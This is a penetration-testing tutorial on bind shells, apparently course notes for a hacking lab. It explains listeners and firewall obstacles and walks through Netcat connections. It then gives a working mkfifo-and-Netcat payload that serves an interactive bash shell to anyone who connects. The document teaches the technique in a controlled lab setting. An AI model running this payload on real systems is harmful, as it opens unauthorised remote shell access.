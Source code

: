 # Bind Shells

In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

## **Bind Example**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

* There would have to be a listener already started on the target.
* If there is no listener started, we would need to find a way to make this happen.
* Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
* Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

## Practicing with GNU Netcat

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

### **No. 1: Server - Target starting Netcat listener**

Once connected to the target box with ssh, start a Netcat listener:

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

### **No. 2: Client - Attack box connecting to target**

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

```bash
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

### **No. 3: Server - Target receiving connection from client**

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received! 
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

### **No. 4: Client - Attack box sending message Hello Academy**

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

### **No. 5: Server - Target receiving Hello Academy message**

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

{% hint style="info" %}
Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.
{% endhint %}

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

### **No. 1: Server - Binding a Bash shell to the TCP session**

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

### **No. 2: Client - Connecting to bind shell on target**

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.
